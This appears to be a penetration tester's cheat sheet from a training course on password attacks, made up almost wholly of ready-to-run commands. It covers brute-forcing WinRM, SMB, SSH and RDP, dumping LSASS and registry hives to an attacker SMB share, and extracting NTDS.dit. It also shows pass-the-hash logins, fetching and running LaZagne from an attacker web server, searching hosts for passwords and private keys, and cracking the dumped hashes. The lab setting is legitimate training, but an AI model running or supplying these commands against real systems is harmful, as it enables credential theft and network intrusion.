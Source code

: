 ### Password Locations

```md
- `Files`: including configs, databases, notes, scripts, source code, cronjobs, and SSH keys
  - Configuration files (.config, .conf, .cnf)

```bash
    - for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
`

  - Databases
  - Notes
  - Scripts
  - Cronjobs
  - SSH keys
- `History`: including logs, and command-line history
- `Memory`: including cache, and in-memory processing
- `Key-rings`: such as browser stored credentials
```

### Password Mutations

```bash
# Generate a wordlist from a website
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist

# Generate rule-based word list using Hashcat
hashcat --force password.list -r custom.rule --stdout > mut_password.list

# Download a list of file extensions for password searching
curl -s https://fileinfo.com/filetypes/compressed | html2text | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt

# Generate potential usernames using username-anarchy
./username-anarchy -i ~/name.txt > usernames.txt

# Kerbrute (after username-anarchy) to hone in on legitimate usernames
./kerbrute_linux_amd64 userenum --dc 10.129.202.85 --domain ILF.local names.txt
```

### Remote Password Attacks

```bash
# Brute-force WinRM service
crackmapexec winrm <ip> -u user.list -p password.list

# Enumerate SMB shares using specified credentials
crackmapexec smb <ip> -u "user" -p "password" --shares

# Attempt password cracking over specified service with Hydra
hydra -L user.list -P password.list <service>://<ip>
hydra -l username -P password.list <service>://<ip>
hydra -L user.list -p password <service>://<ip>
hydra -C <user_pass.list> ssh://<IP>

# Dump password hashes using CrackMapExec
crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam
crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa
crackmapexec smb <ip> -u <username> -p <password> --ntds

# Establish a PowerShell session using Evil-WinRM
evil-winrm -i <ip> -u Administrator -H "<passwordhash>"
```

### Windows Local Password Attacks

```powershell
# List running processes
tasklist /svc

# Search files for "password"
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

# Dump LSASS process
Get-Process lsass
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full

# Extract credentials from LSASS dump
pypykatz lsa minidump /path/to/lsassdumpfile

# Save and move registry hives
reg.exe save hklm\sam C:\sam.save
move sam.save \\<ip>\NameofFileShare
---
attacker: sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData "$(pwd)"

win machine:
reg save HKLM\SAM \\10.10.15.178\CompData\sam.save
reg save HKLM\SYSTEM \\10.10.15.178\CompData\system.save
reg save HKLM\SECURITY \\10.10.15.178\CompData\security.save

attacker: python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

copy C:\Windows\Temp\lsass.dmp \\10.10.15.178\CompData\lsass.dmp
---

# Dump password hashes using secretsdump.py
python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

# Create volume shadow copy and copy NTDS.dit
vssadmin CREATE SHADOW /For=C:
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

# Using NetExec to capture NTDS.dit - One-liner
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil

# Pass the Hash (PtH)
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b

#LaZagne
attacker: python3 -m http.server 8000
Win Target: Invoke-WebRequest -Uri http://10.10.14.118:8000/LaZagne.exe -OutFile $env:TEMP\LaZagne.exe
Win Target: $path="$env:TEMP\LaZagne.exe"
Win Target: & $path all
```

### Linux Local Password Attacks

```bash
# Find configuration files
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib|fonts|share|core" ;done

# Search for credentials in files
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc|lib");do echo -e "\nFile: " $i; grep "user|password|pass" $i 2>/dev/null | grep -v "\#";done

# Find common database files
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc|lib|headers|share|man";done

# Search for text files
find /home/* -type f -name "*.txt" -o ! -name "*.*"

# Search for private keys
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"

# Extract last 5 lines from bash history
tail -n5 /home/*/.bash*
```

### Cracking Passwords

```bash
# Crack NTLM hashes with Hashcat
hashcat -m 1000 dumpedhashes.txt /usr/share/wordlists/rockyou.txt

# Crack single NTLM hash and show results
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt --show

# Combine passwd and shadow files for cracking
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes

# Crack unshadowed hashes
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked

# Extract SSH key hashes and crack them
python3 ssh2john.py SSH.private > ssh.hash
john ssh.hash --show

# Extract and crack Office file hashes
office2john.py Protected.docx > protected-docx.hash
john --wordlist=rockyou.txt protected-docx.hash

# Crack PDF and ZIP file hashes
pdf2john.pl PDF.pdf > pdf.hash
john --wordlist=rockyou.txt pdf.hash
zip2john ZIP.zip > zip.hash
john --wordlist=rockyou.txt zip.hash

# Extract and crack BitLocker hashes
bitlocker2john -i Backup.vhd > backup.hashes

# Decrypt encrypted files with OpenSSL
for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null | tar xz;done
```

### Network Services

```bash

# Netexec
netexec <proto>(winrm) <target-IP> -u <user or userlist> -p <password or passwordlist>
sudo apt-get -y install netexec

# Evil-WinRM
Do this after Netexec
sudo gem install evil-winrm
evil-winrm -i <target-IP> -u <username> -p <password>

# Hydra RDP
hydra -L user.list -P password.list rdp://10.129.42.197

# Hydra SMB
hydra -L user.list -P password.list smb://10.129.42.197
Had to finish using msfconsole
smbmap -H 10.129.202.136 -u username -p 'password'
smbclient -U user \\\\10.129.42.197\\SHARENAME

# Hydra SSH
hydra -L user.list -P password.list ssh://10.129.42.197
- pass-stuff: hydra -C user_pass.list ssh://10.100.38.23

# Find a file using cmd
dir C:\*flag.txt* /s /b
```
